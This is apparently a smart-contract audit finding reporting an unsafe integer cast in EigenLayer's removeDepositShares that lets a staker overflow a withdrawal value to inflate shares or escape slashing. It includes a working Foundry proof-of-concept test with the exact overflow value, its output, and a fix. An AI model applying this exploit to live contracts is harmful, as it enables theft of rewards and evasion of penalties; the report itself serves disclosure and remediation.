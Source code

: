 

| ID                                                                                                                             | Title                                                                                                                  | Severity |
| ------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------- | -------- |
| [H-01](Malicious staker can increase shares or bypass the operator slashing due to unsafe type casting in removeDepositShares) | Malicious staker can increase shares or bypass the operator slashing due to unsafe type casting in removeDepositShares | high     |


## [H-01] Malicious staker can increase shares or bypass the operator slashing due to unsafe type casting in removeDepositShares

## Summary

any staker can manipulate his shares in `EigenPodManager` and `DelegationManager` due to an unsafe type casting used in `removeDepostShares` casting from `uint256` to `int256` for a `depositSharesToRemove` that is user inputted value

## Finding Description

`removeDepositShares` is called from `DelegationManager::_removeSharesAndQueueWithdrawal` that is called from `queueWithdrawals` to queue a withdrawals

```
File: DelegationManager.sol180:     function queueWithdrawals(181:         QueuedWithdrawalParams[] calldata params//     CODE195:             withdrawalRoots[i] = _removeSharesAndQueueWithdrawal({196:                 staker: msg.sender,197:                 operator: operator,198:                 strategies: params[i].strategies,199:@>               depositSharesToWithdraw: params[i].depositShares,200:                 slashingFactors: slashingFactors201:             });202:         }
```

Values in `QueuedWithdrawalParams` is

```
struct QueuedWithdrawalParams {        IStrategy[] strategies;@>      uint256[] depositShares;        address __deprecated_withdrawer;    }
```

The staker can specify a value of the shares he want to withdraw with value > `int256` to make an overflow in the `EigenPodManager` as the value is casted to int256 which will overflow silently

```
File: DelegationManager.sol501:             // Remove deposit shares from EigenPodManager/StrategyManager502:             uint256 sharesAfter = shareManager.removeDepositShares(staker, strategies[i], depositSharesToWithdraw[i]);503:
```

for this to be successful a user has to be delegated to an operator with slahsingfactor = 0 to reflect 0 when calculating decrease delegation

```
File: DelegationManager.sol493:                 _decreaseDelegation({494:                     operator: operator,495:                     staker: staker,496:                     strategy: strategies[i],497:                     sharesToDecrease: withdrawableShares[i]498:                 });499:             }
```

or he might not be delegated to any operator

## Impact Explanation

high : a user can

1. escape slashing.
2. stake initial 32 ether then withdrew them and increase his shares to gain huge rewards risk free.

## Proof of Concept

1. Add this function in `EigenPodManagerUnitTests_ShareUpdateTests` contract in `EigenPodManagerUint.t.sol` file
2. run the following command `forge test --mt test_removeShares_OverFlow_manipulate_Shares -vvvv`

```
function test_removeShares_OverFlow_manipulate_Shares() public {
        uint256 sharesAdded = 1 ether;//assume initial shares        uint256 sharesRemoved = 0.5 ether;//shares to be removed 1st        // Initialize pod with shares        _initializePodWithShares(defaultStaker, int(sharesAdded));        // this reflect the value of `podOwnerDepositShares` before withdraw        uint256 balanceBefore = eigenPodManager.stakerDepositShares(defaultStaker, beaconChainETHStrategy);        // Remove shares        cheats.prank(address(delegationManagerMock));        eigenPodManager.removeDepositShares(defaultStaker, beaconChainETHStrategy, sharesRemoved);                // this reflect the value of `podOwnerDepositShares` after partial withdraw        uint256 balanceAfter = eigenPodManager.stakerDepositShares(defaultStaker, beaconChainETHStrategy);
        // Check that balance decreases which is the normal case        assertGt(            balanceBefore, balanceAfter, "Incorrect number of shares removed"        );

        // now mkaing the overflow edgecase        uint256 overFlow_amount = 57896044618658097811785492504343953926634992332820282019728792003956564819968;//int256.max + any value due to overflow would result in increase instead of decrease                        cheats.prank(address(delegationManagerMock));        eigenPodManager.removeDepositShares(defaultStaker, beaconChainETHStrategy, overFlow_amount);                // this reflect the value of `podOwnerDepositShares` overflow edgecase withdraw        uint256 balanceAfterOverflow = eigenPodManager.stakerDepositShares(defaultStaker, beaconChainETHStrategy);
        // asserting that instead of `podOwnerDepositShares` to decrease it increases.        assertGt(balanceAfterOverflow, balanceAfter);    }
```

output

```
VM::assertGt(57896044618658097611785492504343953926634992332820282019729292003956564819968 [5.789e76], 500000000000000000 [5e17]) [staticcall]    │   └─ ← [Return]    └─ ← [Stop]
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.48ms (402.39µs CPU time)
```

As can be seen `podOwnerDepositShares` after withdrawal increased instead of decreasing

## Recommendation

apply this in `removeDepositShares`

```
++    require(int256(depositSharesToRemove) > 0, SharesNegative());
```